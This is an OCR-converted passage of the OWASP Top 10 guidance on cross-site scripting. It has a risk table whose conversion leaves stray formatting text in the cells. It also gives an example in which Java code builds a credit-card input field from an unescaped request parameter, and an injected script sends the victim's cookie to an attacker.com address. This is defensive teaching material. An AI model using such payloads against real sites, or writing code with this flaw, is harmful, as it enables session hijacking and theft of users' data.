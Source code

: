 <center>

<table>
<thead>
<tr class="header">
<th><p>Threat Agents</p></th>
<th><p>Attack Vectors</p></th>
<th><p>colspan="2"</p></th>
<th><p>Security Weakness</p></th>
<th><p>Technical Impact</p></th>
<th><p>Business Impacts</p></th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td><p>style="background-color: #D9D9D9; color: #000000;"</p></td>
<td><p>______</p></td>
<td><p>style="background-color: #FF0000; color: #000000;"</p></td>
<td><p>Exploitability<br />
EASY</p></td>
<td><p>style="background-color: #FF00FF; color: #000000;"</p></td>
<td><p>Prevalence<br />
VERY WIDESPREAD</p></td>
</tr>
<tr class="even">
<td><p>style="text-align: left; border: 2px solid #FFFFFF;"</p></td>
<td><p>Consider anyone who can send untrusted data to the system, including external users, internal users, and administrators.</p></td>
<td><p>Attacker sends text- based attack scripts that exploit the interpreter in the browser. Almost any source of data can be an attack vector, including internal sources such as data from</p></td>
<td><p>colspan="2" style="text-align: left;border: 2px solid #FFFFFF;"</p></td>
<td><p>XSS is the most prevalent web application security flaw. XSS flaws occur when an application includes user supplied data in a page sent to the browser without properly validating or escaping that content. There are three known types of XSS flaws: 1) Stored, 2) Reflected, and 3) DOM based XSS.</p>
<p>Detection of most XSS flaws is fairly easy via testing or code analysis.</p></td>
<td><p>style="text-align: left; border: 2px solid #FFFFFF;"</p></td>
</tr>
</tbody>
</table>

</center>

The application uses untrusted data in the construction of the following
HTML snippet without validation or escaping:

(String) page += "\<input name='creditcard' type='TEXT‘ value='" +
request.getParameter("CC") + "'\>";

The attacker modifies the ‘CC’ parameter in their browser to:

'\>

<script>

document.location= '<http://www.attacker.com/cgi-bin/cookie.cgi>?
foo='+document.cookie

</script>

'.

This causes the victim’s session ID to be sent to the attacker’s
website, allowing the attacker to hijack the user’s current session.
Note that attackers can also use XSS to defeat any CSRF defense the
application might employ. See A5 for info on CSRF. }}